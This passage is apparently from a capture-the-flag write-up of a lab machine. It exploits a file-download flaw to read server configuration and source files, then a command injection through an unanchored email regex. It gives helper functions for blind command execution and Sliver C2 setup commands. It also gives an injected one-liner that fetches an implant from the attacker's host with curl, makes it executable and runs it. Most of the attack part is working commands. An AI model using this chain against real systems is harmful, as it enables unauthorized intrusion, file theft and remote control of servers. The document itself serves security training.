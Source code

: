 ##### Exploitation

We leveraged this vulnerability to read the NGINX sites configuration file at `/etc/nginx/sites-enabled/default`{:.filepath} in search of additional information about the server.

```zsh
# Easily download files from the target filesystem using a helper function
download() { curl -s "http://beta.only4you.htb/download" --data-urlencode "image=$1"; }
download /etc/nginx/sites-enabled/default # Found /var/www/only4you.htb
download /var/www/beta.only4you.htb/app.py # Verify the existence of app.py (from source code)
download /var/www/only4you.htb/app.py # Check for app.py in /var/www/only4you.htb -> Exists!
```
{:file="bryan@red_team" .nolineno}

In the sites configuration, we discovered potential application directories in `/var/www`{:.filepath}, specifically `only4you.htb`{:.filepath} and `beta.only4you.htb`{:.filepath}. We confirmed that the beta Flask application resided in `/var/www/beta.only4you.htb/app.py`{:.filepath}. We also checked for the presence of a Flask application at `/var/www/only4you.htb/app.py`{:.filepath}. Further analysis of `/var/www/only4you.htb/app.py`{:.filepath} revealed that it imports another Python file, `form.py`{:.filepath}.

## Command Injection

We discovered that the `form.py`{:.filepath} file in `/var/www/only4you.htb`{:.filepath} used regular expressions to validate email addresses and executed unsafe shell commands that included the provided email address. The insecure regex allowed us to inject commands by appending them to a valid email address since it did not specify a beginning or end in the email address pattern.

```zsh
# Easily execute blind shell commands using a helper function
blind_cmd() {
  curl only4you.htb -s -o /dev/null \
    -d 'subject&message' --data-urlencode "email=x@x.local;($1)"
}

# Verify command execution
blind_cmd "id" | time cat # Immediate response
blind_cmd "id && sleep 3" | time cat # Delayed response
```
{:file="bryan@red_team" .nolineno}

We then exploited the command injection vulnerability to download and execute a [Sliver](https://github.com/BishopFox/sliver) implant on the target.

```shell
mtls -L 10.10.14.2 -l 8443
generate -e -l -G -o linux -m 10.10.14.2:8443 -s implant.elf
websites add-content -w onlyforyou -c implant.elf -p /f7ioYM
https -L 10.10.14.2 -l 443 -w onlyforyou
```
{:file="sliver-client" .nolineno}

```zsh
# Exploit command injection to download and execute Sliver implant
blind_cmd "bash -c 'curl -ko /tmp/f7ioYM https://$lhost/f7ioYM;chmod +x /tmp/f7ioYM;/tmp/f7ioYM'"
```
{:file="bryan@red_team" .nolineno}
